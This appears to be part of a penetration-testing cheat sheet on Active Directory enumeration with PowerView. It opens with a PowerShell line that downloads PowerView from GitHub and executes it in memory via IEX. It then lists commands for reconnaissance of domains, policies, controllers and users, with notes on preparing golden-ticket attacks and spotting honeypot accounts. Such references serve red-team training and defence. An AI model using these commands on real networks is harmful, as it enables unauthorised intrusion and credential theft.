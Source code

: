 ```
PS C:\> $wr = [System.NET.WebRequest]::Create("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
PS C:\> $r = $wr.GetResponse() 
PS C:\> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

Domain Enumeration
-----------------------------------------

### PowerView

- PowerView link

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

- Enumerate current domain

```
PS C:\> Get-NetDomain
PS C:\> Get-NetDomain -Domain <Domain Name>        # Enumerate another domain
```

- Enumerate domain SID

```
PS C:\> Get-DomainSID
```

- Enumerate domain policy

```
PS C:\> Get-DomainPolicy
PS C:\> (Get-DomainPolicy)."System Access"        # Password policy
PS C:\> (Get-DomainPolicy)."Kerberos Policy"        # Kerberos policy - smart idea to enumerate this before golden ticket attack
PS C:\> (Get-DomainPolicy -Domain <Domain Name>)."System Access"        # Enumerate another domain
```

- Enumerate domain controllers

```
PS C:\> Get-NetDomainController
PS C:\> Get-NetDomainController -Domain <Domain Name>        # Enumerate another domain
```

- Enumerate users

```
PS C:\> Get-NetUser
PS C:\> Get-NetUser | select samaccountname
PS C:\> Get-NetUser -Username <username>
PS C:\> Get-NetUser -Username <username> -Domain <Domain Name>        # Enumerate another domain
```

- Enumerate list of all properties for users

```
PS C:\> Get-UserProperty
PS C:\> Get-UserProperty -Properties pwdlastset        # Check last password change
PS C:\> Get-UserProperty -Properties badpwdcount        # Look for 0 - this may be a decoy or honeypot user
PS C:\> Get-UserProperty -Properties logoncount        # Check logon counts - this may be a decoy or honeypot user
```
